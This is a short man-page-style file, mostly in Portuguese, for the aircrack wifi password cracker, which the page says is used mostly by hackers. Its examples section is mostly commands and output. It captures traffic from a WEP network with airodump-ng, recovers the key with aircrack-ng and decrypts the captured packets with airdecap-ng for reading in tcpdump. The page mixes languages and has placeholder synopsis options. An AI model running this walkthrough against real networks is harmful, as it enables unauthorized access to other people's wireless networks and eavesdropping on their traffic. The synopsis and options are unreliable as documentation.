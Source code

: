 aircrack(1) -- Programa para quebrar senha de rede wifi
===============================================


SYNOPSIS
--------

`aircrack` [`-bar`] [`-c` *config-file* ] *file* ...

DESCRIÇÃO
---------

`aircrack`é um programa utilizado na maioria das vezes por *hacker* para quebrar a senha de redes wifi.


OPÇÕES
------

* `-w` FILENAME:
  Usar uma wordlist FILENAME.

EXEMPLOS
--------

root@crack_WEP:~# airodump-ng mon0
[ CH 10 ][ Elapsed: 4 s ][ 2009-08-08 18:01 ][]
 BSSID              PWR  Beacons    #Data, #/s  CH  MB  ENC  CIPHER AUTH ESSID
 00:A0:C5:FF:84:72  197        4        0    0   1  11  WEP  WEP         private
 BSSID              STATION            PWR   Rate  Lost  Packets  Probes



root@crack_WEP:~# airodump-ng --channel 1 --bssid 00:A0:C5:FF:84:72 --write temp wlan0

 CH  1 ][ Elapsed: 31 mins ][ 2009-05-02 21:52                                         
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB  ENC  CIPHER AUTH ESSID
 00:A0:C5:FF:84:72  205  10     6058    24496    0   1  54  WEP  WEP         private           
 BSSID              STATION            PWR   Rate  Lost  Packets  Probes                       
 00:A0:C5:FF:84:72  00:18:4D:76:30:EB  188  54-54     0    24795       








root@crack_WEP:~# aircrack-ng -z -b 00:A0:C5:FF:84:72 temp.cap-0*.cap 

                                         Aircrack-ng 1.0 rc1

                         [00:00:22] Tested 240228 keys (got 41742 IVs)

   KB    depth   byte(vote)
    0    0/  1   B9(58880) A0(50688) 12(50176) F5(49920) 9E(48896) CD(48640) 
    1    0/  1   19(54784) E8(52480) FA(52480) 4B(51456) 79(51456) DD(49664) 
    2    0/  1   31(59648) EA(53504) 40(50688) 0A(50432) 88(50432) 0E(50176) 
    3    0/  1   8C(60416) 05(49152) 56(49152) 23(48640) 52(48384) 03(48128) 
    4    0/  1   B2(59136) AE(49664) 78(49152) FE(49152) 8B(48384) 9C(47616) 
    5    0/  1   61(53504) E6(50688) FF(50176) 13(49664) 23(49408) C7(49408) 
    6    0/  1   DD(56320) C4(51968) 90(50688) 0C(50176) CF(49920) CE(49152) 
    7    0/  1   4E(53248) E6(51968) 7D(49152) 0B(48896) 90(48896) 06(48640) 
    8    0/  1   FB(52224) C1(49664) E9(48128) 3D(47616) F0(47360) EB(47104) 
    9    0/  1   0B(54784) BC(51712) 52(50432) 54(49920) F5(49920) CA(48896) 
   10    0/  1   E6(50944) 1C(49920) 5F(49408) 1F(49152) 0A(48896) 83(48896) 
   11    2/  1   FF(49664) 17(48384) 94(48128) 27(47872) 23(47616) B2(47616) 
   12    0/  4   91(50452) A4(50360) 77(50156) 78(49540) FF(49476) 70(48788) 

             KEY FOUND! [ B9:19:31:8C:B2:61:DD:4E:FB:0B:AA:62:99 ] 
	Decrypted correctly: 100%





`Decrypt the traffic`
It is possible to capture the traffic in .cap files as above, decrypt it in a second file before sending it to the tcpdump command for instance:

root@crack_WEP:~# airdecap-ng -w b919318cb261dd4efb0baa6299 temp-01.cap
Total number of packets read         22072
Total number of WEP data packets      6245
Total number of WPA data packets         0
`Number of plaintext data packets         3
Number of decrypted WEP  packets      6245
Number of corrupted WEP  packets         0
Number of decrypted WPA  packets         0

root@crack_WEP:~# tcpdump -r temp-01-dec.cap -i wlan



ARQUIVOS
--------

 Use uma wordlist para ajudar a achar a chave.

ENVIRONMENT
-----------

O cdshell prove uma ferramenta chamada generator_wordlist.py que pode ser usada para gerar uma wordlist do jeito que você desejar.

AUTOR
-----

Rafael Quirino - <quirinobytes (a) gmail com>

VEJA SOBRE
----------

ronn(5), markdown(1), txt2tags(1) [Linux Man Page Howto](
http://www.schweikhardt.net/man_page_howto.html)
